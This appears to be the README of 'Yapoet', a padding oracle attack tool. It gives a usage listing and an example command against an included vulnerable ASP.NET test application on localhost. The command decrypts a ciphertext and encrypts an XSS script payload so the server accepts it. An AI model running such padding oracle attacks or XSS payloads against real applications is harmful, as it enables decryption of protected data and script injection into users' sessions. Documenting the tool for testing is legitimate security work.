 Yapoet
======

Comprehensive description will be added later. Presently you can try to play with it against included example of a vulnerable web application:
```\Examples\ASP.NET-Webforms\BuildAndRun.cmd
python yapoet.py -u http://localhost:8080/ -d "aEMei5bwchHQqb6rh17Irg==" -e "<script>alert(/XSS/)</script>" --data="__VIEWSTATE=&Answer=&EncryptedAnswer=%encrypted_data%"```

Usage
=====
```
yapoet.py [options]

Options:
  -h, --help            show this help message and exit
  -u URL, --url=URL     Target URL (e.g. "http://host.domain/?param1=value%2b1
                        &param2=value%2b2")
  -d ENCRYPTED_DATA, --decrypt=ENCRYPTED_DATA
                        Base64-encoded data to decrypt
  -e PLAINTEXT_DATA, --encrypt=PLAINTEXT_DATA
                        Plaintext data to encrypt
  --data=POST_DATA      POST data (e.g. "param1=value%2b1&param2=value%2b1")
  --cookie=COOKIE       HTTP Cookie header value
  --block-size=BLOCK_SIZE
                        Cipher block size [default: 16]
  --iv=IV               Initialization vector (e.g. "0x00,0x01,0x39...")
                        [default: 0x00 * BLOCK_SIZE]
  --mode=MODE           Mode of operation (e.g. "ECB" or "CBC") [default: CBC]

Please note that the value of at least one of the HTTP-request parameters in
the URL, POST_DATA or COOKIE options should be replaced with an
%encrypted_data% placeholder.
```
